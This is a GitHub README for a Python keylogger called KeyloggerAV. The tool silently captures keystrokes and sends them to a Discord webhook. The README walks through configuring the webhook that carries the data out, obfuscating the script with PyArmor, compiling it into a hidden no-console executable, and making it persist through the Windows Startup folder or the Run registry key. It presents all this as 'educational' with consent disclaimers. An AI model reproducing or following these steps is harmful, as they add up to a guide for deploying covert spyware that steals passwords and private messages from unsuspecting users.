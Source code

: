 # KeyloggerAV

![KeyloggerAV](https://via.placeholder.com/728x90.png?text=KeyloggerAV+Logo)

**KeyloggerAV** is a simple keylogger built with Python. It captures keystrokes on your system and sends them to a Discord webhook. 

🚨 **Please make sure you only use this tool on your own machines or with explicit consent from the user.** Unauthorized use is illegal and unethical. This tool is strictly for educational purposes.

---

## 📌 Features

- ✅ Captures keystrokes silently.
- ✅ Sends logs to a Discord webhook.
- ✅ Lightweight and easy to use.
- ✅ Can be compiled into an executable.
- ✅ Optional obfuscation for security.

---

## 🚀 Requirements

Before you get started, ensure you have:

- **Python 3.x** installed.
- The following Python libraries:
  - `pynput` – for capturing keystrokes.
  - `requests` – for sending data to the Discord webhook.
- **PyInstaller** – to compile the script into an executable (`.exe`).
- **PyArmor** – for optional code obfuscation.

---

## 🔧 Installation

### 1️⃣ Clone the Repository

```bash
git clone https://github.com/TheOnlySyntax/ObfuscationAV-keylogger
cd ObfuscationAV-keylogger
```

### 2️⃣ Install Dependencies

```bash
pip install pynput requests pyinstaller pyarmor
```

---

## ⚙️ Setup

### 🔹 1. Configure the Discord Webhook

Open `keyloggerAV.py` and locate:
```python
WEBHOOK_URL = "https://discord.com/api/webhooks/your_webhook_url"
```
Replace `your_webhook_url` with your actual webhook URL.

### 🔹 2. (Optional) Obfuscate the Code

For added security, run:
```bash
pyarmor gen keyloggerAV.py
```
An obfuscated version will appear in the `dist` folder.

### 🔹 3. Compile to Executable

```bash
pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=pynput keyloggerAV.py
```
- `--onefile`: Bundles everything into one `.exe`.
- `--noconsole`: Hides the terminal.
- `--hidden-import`: Ensures dependencies are included.

The compiled `.exe` will be in the `dist` folder.

---

## 🖥️ Running the Program

Navigate to the `dist` folder and execute:
```bash
./keyloggerAV.exe
```

---

## 🚀 Add to Startup (Optional)

### 📁 1. Using Startup Folder

- Press `Win + R`, type `shell:startup`, and hit Enter.
- Copy the `.exe` file into the folder that opens.

### 🛠️ 2. Using Windows Registry (Advanced)

- Press `Win + R`, type `regedit`, and hit Enter.
- Navigate to:
```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```
- Right-click → `New > String Value`, name it `KeyloggerAV`, and set its value to the full path of your `.exe` file.

---

## ⚠️ Disclaimer

This project is for **educational purposes only**. The author is not responsible for any misuse. Always obtain explicit consent before use.

---

## 📜 License

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](LICENSE)

This project is licensed under the **MIT License**. See the `LICENSE` file for details.

